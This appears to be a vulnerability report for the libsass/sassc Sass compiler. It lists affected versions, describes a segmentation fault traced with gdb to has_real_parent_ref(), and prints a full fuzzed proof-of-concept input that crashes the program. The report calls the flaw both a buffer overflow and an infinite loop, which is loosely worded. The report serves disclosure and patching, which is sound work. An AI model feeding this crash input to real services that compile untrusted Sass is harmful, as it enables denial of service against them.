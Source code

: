 # libsass has a buffer overflow vulnerability

## 1. Project address
sassc address:
https://github.com/sass/sassc.git
libsass address:
https://github.com/sass/libsass.git

## 2. Project Introduction
Sassc: SassC is a wrapper for libsass (http://github.com/sass/libsass) to generate a useful command-line application that can be installed and packaged for multiple operating systems. SassC currently statically links the libsass library, but may use dynamic linking in the future if libsass supports dynamic linking.
Libsass: LibSass is a C++ port of the original Ruby Sass CSS compiler with a C API.

## 3. Software Version
Sassc 3.6.2
Libsass: 3.6.5-8-g210218
Sass2scss: 1.1.1
Sass: 3.5

## 4. Vulnerability details
POC link download:
https://github.com/sass/sassc/issues/280#issue-1448940448
Appearance: Execute ./sassc poc.txt

![image](https://github.com/user-attachments/assets/a0244fed-283c-4712-b2e5-52cab06c4154)

It will cause a segmentation fault and crash the program.
Use gdb to find out why the program crashed with this input:
gdb --args sassc poc.txt
Type run

![image](https://github.com/user-attachments/assets/d5d201fc-6762-49fe-96e7-908ca575aa8f)
![image](https://github.com/user-attachments/assets/c140b0da-13e5-44e6-ac72-09f762bd1ead)

You can see that the error function is has_real_parent_ref()
Then enter bt to backtrack and view the stack frame

## Vulnerability Exploitation

poc
```
indmport {imp:acr$-p::c_-(6n

OfCi



O
::c_-(6n

OfCi



O

O




f)i
&
Ch),mport>{imp:acr$-p::c_-(6n

OfCi



O
::c_-(6n

OfCi



O

O
f)i
&
Ch),



:acr$-p::c_-(6n

OfCi



O
::c_-(6n

OfCi



O

O




f)i
&
Ch),mport {imp:acr$-acr$-p::c_-(6n

OfCi



O
::c_-(6n

OfCi



O

O




f)i
&
Ch),mport {imp:acr$-p::c_JJ{}}mmqo|t {iF#FFmmqo|t {imp:ac&&F&&&/&&fro
}mp:ac&&&&&&/&&fro
}@c_-(6n-p::c_-(6n

OfCi



O
::c


O

O




f)i
&
O
O
f)i
&
Ch);



JJ{}}@c_-(6n

OfCJJ{}}@c_-(6n

OfC



JJ{}}@c_-(6
```
By injecting malicious POC, the program that calls the libsass library will fall into an infinite loop and crash.

![image](https://github.com/user-attachments/assets/7996342a-809a-4cd2-abd4-65a9dad654b6)

